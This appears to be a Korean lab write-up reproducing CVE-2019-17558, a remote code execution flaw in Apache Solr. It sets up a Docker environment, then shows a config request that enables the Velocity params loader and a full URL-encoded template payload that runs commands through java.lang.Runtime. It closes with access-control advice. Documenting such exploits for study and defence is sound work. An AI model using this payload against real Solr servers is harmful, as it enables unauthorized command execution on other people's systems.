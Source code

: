 # CVE-2019-17558

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [오훈(@55hnnn)](http://github.com/55hnnn)

<br/>

### 요약

-   Solr은 Apache Lucene(TM) 기반의 오픈 소스 엔터프라이즈 검색 플랫폼.
-   Apache Solr 5.0.0에서 Apache Solr 8.3.1은 VelocityResponseWriter를 통한 Remote Code Execution에 취약함.
-   Velocity 템플릿은 `velocity/` 디렉토리 또는 파라미터를 통해 제공될 수 있는데, 여기에 악의적인 템플릿이 포함될 수 있음
-   파라미터를 통한 템플릿은 기본적으로 사용할 수 없지만, 해당 설정을 `True`로 설정한 요청을 보내면 활성화가 가능함.
<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`API에 접속하여 solr core의 이름을 확인함.
![](1_check_core.png)
-   `params.resource.loader.enabled`옵션이 활성화 되어있어야 함. `/solr/[core_name]/config` API를 통해 해당 옵션을 확인. 만약, 비활성화 되어있을 경우, 다음 요청을 통해 해당 옵션을 활성화

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![](2_check_loader.png)

- Velocity Template에 의한 취약점을 트리거함
```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

<br/>

### 결과

![](3_result.png)

<br/>

### 정리

-   이 취약점은 공격자가 접근 제어가 이루어지지 않은 API를 통해 solr 서버의 설정을 임의로 구성하여 RCE가 가능했음. API 액세스 권한을 적절히 적용하여 공격자가 임의로 설정을 변경할 수 없도록 주의해야 함.

